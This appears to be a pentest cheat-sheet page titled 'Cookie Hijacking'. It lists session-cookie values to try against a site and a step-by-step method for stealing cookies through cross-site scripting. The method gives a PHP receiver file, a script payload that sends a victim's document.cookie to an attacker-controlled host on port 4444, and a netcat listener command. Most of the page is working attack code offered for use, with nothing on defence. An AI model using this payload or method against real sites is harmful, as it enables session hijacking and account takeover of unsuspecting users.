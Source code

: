 ```yaml
---
title: Cookie Hijacking
desc: A methodology of manipulating, grabbing cookies.
tags: [Burp, Cookie, Netcat, Web]
alts: [XSS]
render_with_liquid: false
---
```


## Cookie Manipulation

```html
Cookie: PHPSESSID=0
Cookie: PHPSESSID=1
Cookie: PHPSESSID=999

<!-- ASCII Hex -->
Cookie: PHPSESSID=3836382d61646d696e
```

<br />

## PHP Cookie Grabbing with XSS

In your local machine, create the payload for grabbing the cookie when the other user will access your machine.  

```php
// steal_cookie.php

<?php echo $_GET['cookie']; ?>
```

Create the JavaScript code to force users to access your machine which shows the victim's cookie value.

```javascript
<script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
```

POST request with this JavaScript code to the target web page.  
Open listner in your local machine and wait for the other users will access the target web page.

```sh
nc -lvnp 4444
```